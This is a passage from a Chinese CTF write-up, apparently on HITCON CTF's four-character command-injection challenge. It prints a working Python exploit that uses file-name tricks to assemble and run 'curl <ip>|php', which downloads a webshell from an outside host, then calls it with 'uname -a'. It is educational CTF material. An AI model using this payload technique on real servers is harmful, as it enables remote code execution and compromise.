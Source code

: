 ```
 
    '*&gt;v',
    # 前文提到， * 相当于 `ls` ，那么这条命令等价于 `dir f&gt; kt- sl`&gt;v ，
    #  前面提到dir是不换行的，所以这时会创建文件 v 并写入 f&gt; kt- sl
    # 非常奇妙，这里的文件名是 v ，只能是v ，没有可选字符
 
    '&gt;rev',
    # 创建名为 rev 的文件，这时当前目录下 ls 的结果是： dir f&gt; kt- rev sl v
 
    '*v&gt;%s' % pos2,
    # 魔法发生在这里： *v 相当于 rev v ，* 看作通配符。前文也提过了，体会一下。
    # 这时pos2文件，也就是 g 文件内容是文件v内容的反转： ls -tk &gt; f
 
    # 续行分割 curl 0x11223344|php 并逆序写入
    '&gt;p',
    '&gt;ph\',
    '&gt;|\',
    '&gt;%s\' % ip[8:10],
    '&gt;%s\' % ip[6:8],
    '&gt;%s\' % ip[4:6],
    '&gt;%s\' % ip[2:4],
    '&gt;%s\' % ip[0:2],
    '&gt; \',
    '&gt;rl\',
    '&gt;cu\',
 
    'sh ' + pos2,
    # sh g ;g 的内容是 ls -tk &gt; f ，那么就会把逆序的命令反转回来，
    # 虽然 f 的文件头部会有杂质，但不影响有效命令的执行
    'sh ' + pos0,
    # sh f 执行curl命令，下载文件，写入木马。
]
 
s = r.get(reset)
for i in payload:
    assert len(i) &lt;= 4
    s = r.get(cmd + i)
    print '[%d]' % s.status_code, s.url
    sleep(0.1)
s = r.get(sandbox + 'fun.php?cmd=uname -a')
print '[%d]' % s.status_code, s.url
print s.text
```

运行效果：

[![](https://p0.ssl.qhimg.com/t01d42702502e8f186e.png)](https://p0.ssl.qhimg.com/t01d42702502e8f186e.png)

**<br>**

**后记**

我相信除了文中给出的方法外一定还有一些奇招，大家可以多多探索，可以围观HITCON CTF 2107的[官方解答区](http://t.cn/RlNVPfp)，还可以学习下Phithon师傅的《[小密圈里的那些奇技淫巧](http://t.cn/RlNcllC)》 中与本文主题相关的部分。

最后，如果关于文章内容有任何建议或疑惑，你可以在[https://findneo.github.io/](https://findneo.github.io/) 联系本文作者。感谢阅读o/
